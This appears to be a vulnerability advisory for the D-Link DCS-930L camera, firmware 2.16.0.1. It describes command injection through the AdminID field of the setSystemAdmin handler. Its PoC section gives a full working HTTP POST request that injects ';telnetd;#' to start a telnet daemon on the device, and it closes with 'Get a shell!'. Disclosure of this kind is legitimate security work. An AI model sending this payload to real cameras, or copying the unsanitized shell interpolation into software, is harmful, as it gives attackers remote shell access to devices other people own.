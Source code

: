 **Affected Product**: D-Link DCS930L

**Affected Firmware Versions**:  2.16.0.1

**Vulnerability Type**: Command Execution


------
### **Vulnerability Description**

In the latest firmware (v2.16.0.1) for the D-Link DCS-930L, a command-injection vulnerability was discovered that allows remote attackers to execute arbitrary OS commands via crafted requests. 


---
### **Vulnerability Details**

![image-1](./img/1.png)
Within the `setSystemAdmin` handler in the `alphapd` binary, the `AdminID` value is sourced directly from attacker-controlled input and is subsequently interpolated into shell commands without proper sanitization or escaping. This makes it possible for an attacker to craft an `AdminID` that triggers arbitrary command execution.

---
### **PoC**
We set `AdminID` as **';telnetd;#** , and the device will excute it,such as:

```
POST /setSystemAdmin HTTP/1.1
Host: 192.168.0.163
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.0.163
Authorization: Basic YWRtaW46
Connection: close
Referer: http://192.168.0.163/advanced.htm
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=';telnetd;#&AdminPassword=admin&ConfigSystemAdmin=Save
```

Get a shell!
![image-2](./img/2.png)
